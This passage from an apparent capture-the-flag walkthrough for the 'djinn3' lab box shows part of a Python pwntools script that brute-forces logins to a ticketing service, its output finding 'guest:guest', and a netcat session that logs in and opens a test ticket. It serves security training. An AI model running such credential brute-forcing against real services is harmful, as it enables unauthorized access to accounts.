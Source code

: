 ```python

    s = remote(host, port, level='error')
    
    s.recvuntil('username> ')
    s.sendline(username)
    s.recvuntil('password> ')
    s.sendline(password)

    msg = s.recvline()
    if b'authentication failed' not in msg:
        print("[+] Valid credentials found: {}:{}".format(username, password))
        sys.exit(0)

    s.close()
```

Running it will reveal that we can connect with `guest:guest`:

~~~
kali@kali:/data/djinn3/files$ python3 bruteforce.py 
[+] Valid credentials found: guest:guest
~~~

## Supported commands

Now with valid credentials, we can play with the application. There is a `help` command that lists supported commands. Obviously, the most interesting feature will be `open` because it allows to create tickets that we can then call from the web server running on port 5000.

Let's create a `test` ticket:

~~~
kali@kali:~$ nc djinn.box 31337
username> guest
password> guest

Welcome to our own ticketing system. This application is still under 
development so if you find any issue please report it to mail@mzfr.me

Enter "help" to get the list of available commands.

> help

        help        Show this menu
        update      Update the ticketing software
        open        Open a new ticket
        close       Close an existing ticket
        exit        Exit
    
> open
Title: test
Description: test description
> exit
~~~
